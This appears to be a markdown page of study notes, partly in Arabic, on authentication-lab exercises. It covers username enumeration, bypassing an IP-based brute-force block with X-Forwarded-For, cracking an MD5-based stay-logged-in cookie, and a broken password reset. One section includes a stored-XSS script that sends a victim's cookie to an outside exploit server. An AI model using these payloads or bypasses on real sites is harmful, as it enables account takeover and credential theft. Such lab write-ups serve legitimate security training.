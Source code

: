 # Authentication vulnerabilities
--------
```
✅ 1. Username enumeration via different responses
الثغرة: اختلاف الرسائل لما يكون اليوزر موجود أو غير موجود.

الاستغلال: جرّب يوزرات مختلفة وشوف الرسالة، تقدر تعرف لو اليوزر موجود.
```


--------

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```

--------

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

--------

```
✅ 6. Broken brute-force protection, IP block
الثغرة: حماية تسجيل الدخول بتمنع المحاولات المتكررة فقط من نفس الـ IP.

الاستغلال: استخدم X-Forwarded-For لتغيير عنوان الـ IP مع كل محاولة، وتجاوز الحماية.
```

---------

### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 




----

### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``



----- 

### Password reset broken logic


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 
